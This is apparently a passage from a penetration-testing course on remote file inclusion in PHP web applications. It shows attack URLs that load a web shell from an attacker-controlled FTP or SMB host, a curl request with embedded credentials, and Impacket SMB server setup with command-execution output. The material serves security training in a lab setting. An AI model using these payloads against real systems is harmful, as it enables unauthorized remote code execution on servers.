 ```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:


```shell-session
smoothment@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:


```shell-session
smoothment@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), and specify the command with (`&cmd=whoami`) as we did earlier:

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
   

![](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

As we can see, this attack works in including our remote script, and we do not need any non-default settings to be enabled. However, we must note that this technique is `more likely to work if we were on the same network`, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.
